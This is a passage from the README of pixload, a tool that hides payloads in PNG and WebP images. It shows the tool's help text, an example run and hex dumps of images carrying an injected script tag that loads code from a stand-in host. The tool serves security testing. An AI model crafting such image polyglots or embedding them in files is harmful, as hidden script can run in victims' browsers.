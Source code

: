 ```
00000070  00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |................|
*
000000c0  00 23 50 55 6e 4b 3c 73  63 72 69 70 74 20 73 72  |.#PUnK<script sr|
000000d0  63 3d 2f 2f 65 78 61 6d  70 6c 65 2e 63 6f 6d 3e  |c=//example.com>|
000000e0  3c 2f 73 63 72 69 70 74  3e eb fd 2e 9f 00 49 45  |</script>.....IE|
000000f0  4e 44                                             |ND|
000000f2
```

See [pixload-png(1)](https://github.com/sighook/pixload/blob/master/pixload-png.1.pod)
manual page for more information.

### pixload-webp

##### Help

```sh
$ pixload-webp --help
```

```
Usage: pixload-webp [OPTION]... FILE
Hide payloads/malicious code in WebP images.

Mandatory arguments to long options are mandatory for short options too.
  -P, --payload STRING   set payload for injection
  -v, --version          print version and exit
  -h, --help             print help and exit

Currently, there is no possibility to inject the payload into an existing
WebP image. Only the new (minimal) WebP image will be created and your
payload will be injected into. If the output FILE already exists, the
payload will be injected into the existing image, but this image will be
corrupted.
```

##### Example

```sh
$ pixload-webp payload.webp
```

```
..... WebP Payload Creator/Injector ......
..........................................
... https://github.com/sighook/pixload ...
..........................................

[>] Generating output file
[✔] File saved to: payload.webp

[>] Injecting payload into payload.webp
[✔] Payload was injected successfully

payload.webp: RIFF (little-endian) data, Web/P image

00000000  52 49 46 46 2f 2a 00 00  57 45 42 50 56 50 38 4c  |RIFF/*..WEBPVP8L|
00000010  ff ff ff 00 2f 00 00 00  10 07 10 11 11 88 88 fe  |..../...........|
00000020  07 00 2a 2f 3d 31 3b 3c  73 63 72 69 70 74 20 73  |..*/=1;<script s|
00000030  72 63 3d 2f 2f 65 78 61  6d 70 6c 65 2e 63 6f 6d  |rc=//example.com|
00000040  3e 3c 2f 73 63 72 69 70  74 3e 3b                 |></script>;|
0000004b
```
